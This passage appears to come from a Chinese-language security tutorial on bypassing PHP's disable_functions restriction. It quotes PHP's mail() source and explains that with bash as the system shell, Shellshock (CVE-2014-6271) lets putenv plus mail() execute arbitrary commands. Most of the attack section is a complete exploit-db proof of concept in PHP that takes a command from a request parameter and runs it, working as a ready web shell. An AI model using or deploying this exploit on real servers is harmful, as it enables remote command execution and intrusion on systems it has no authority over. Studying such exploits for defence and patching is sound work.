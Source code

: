 ```c
 #ifdef PHP_WIN32
       sendmail = popen_ex(sendmail_cmd,"wb", NULL, NULL TSRMLS_CC);
#else
       /* Since popen() doesn't indicate if theinternal fork() doesn't work
        *(e.g. the shell can't be executed) we explicitly set it to 0 to be
        *sure we don't catch any older errno value. */
       errno = 0;
       sendmail = popen(sendmail_cmd,"w");
#endif
```

如果系统默认sh是bash，popen会派生bash进程，而我们刚才提到的CVE-2014-6271漏洞，直接就导致我们可以利用mail()函数执行任意命令，绕过disable_functions的限制。

```c
       if (force_extra_parameters) {
              extra_cmd =php_escape_shell_cmd(force_extra_parameters);
       } else if (extra_cmd) {
              extra_cmd =php_escape_shell_cmd(ZSTR_VAL(extra_cmd));
       }
```

`php_escape_shell_cmd`函数会对特殊字符（包括`&#;|*?~<>^()[]{}$\, \x0A and \xFF. ‘` 等）进行转义，那这样是不是就没办法了呢？不是的，我们可以通过`putenv`函数来设置一个包含自定义函数的环境变量，然后通过mail函数来触发，网上早已有POC。

[exploit-db上的Poc](https://www.exploit-db.com/exploits/35146)

**环境**：Debian 7 and CentOS 5 and 6

```php
# Exploit Title: PHP 5.x Shellshock Exploit (bypass disable_functions)
# Google Dork: none
# Date: 10/31/2014
# Exploit Author: Ryan King (Starfall)
# Vendor Homepage: http://php.net
# Software Link: http://php.net/get/php-5.6.2.tar.bz2/from/a/mirror
# Version: 5.* (tested on 5.6.2)
# Tested on: Debian 7 and CentOS 5 and 6
# CVE: CVE-2014-6271
<pre>
<?php echo "Disabled functions: ".ini_get('disable_functions')."n"; ?>
<?php
function shellshock($cmd) { // Execute a command via CVE-2014-6271 @ mail.c:283
   if(strstr(readlink("/bin/sh"), "bash") != FALSE) {
     $tmp = tempnam(".","data");
     putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1");
     // In Safe Mode, the user may only alter environment variables whose names
     // begin with the prefixes supplied by this directive.
     // By default, users will only be able to set environment variables that
     // begin with PHP_ (e.g. PHP_FOO=BAR). Note: if this directive is empty,
     // PHP will let the user modify ANY environment variable!
     mail("a@127.0.0.1","","","","-bv"); // -bv so we don't actually send any mail
   }
   else return "Not vuln (not bash)";
   $output = @file_get_contents($tmp);
   @unlink($tmp);
   if($output != "") return $output;
   else return "No output, or not vuln.";
}
echo shellshock($_REQUEST["cmd"]);
?>
```
